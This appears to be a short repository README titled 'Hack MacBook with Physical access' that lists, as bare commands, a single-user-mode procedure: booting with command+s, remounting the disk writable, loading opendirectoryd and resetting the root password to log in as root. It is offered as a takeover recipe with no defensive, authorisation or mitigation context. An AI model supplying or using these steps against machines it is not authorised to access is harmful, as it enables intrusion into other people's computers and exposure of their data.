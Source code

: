 #Hack MacBook with Physical access#

##Reboot##
```command+s```
```/sbin/fsck -fy```
```/sbin/mount -uw/```
```launchctl load /System/Library/LaunchDaemons/com.apple.opendirectoryd.plist```
```passwd```
##Login as root using new Password##
